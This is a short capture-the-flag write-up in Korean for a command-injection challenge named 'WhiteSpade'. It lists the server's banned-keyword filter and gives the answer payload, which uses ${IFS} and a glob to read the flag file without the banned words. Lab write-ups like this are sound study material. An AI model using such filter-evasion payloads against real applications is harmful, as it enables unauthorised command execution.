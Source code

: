 # WhiteSpade

![Untitled](https://user-images.githubusercontent.com/37824335/223044022-044f50af-b140-484b-b056-9253f3af0514.png)

제한된 키워드를 피해 커맨드 인젝션을 수행하면 되는 문제

키워드는 직접 테스트해보며 확인하거나 app.py파일을 출력하여 확인 가능

keywords = [' ', '*', '/', '=', '\n', '\r', '\t', '\x0b', '\x0c', '-', '+', 'flag', 'cat']

## Answer

```html
fold${IFS}fla?.txt
```
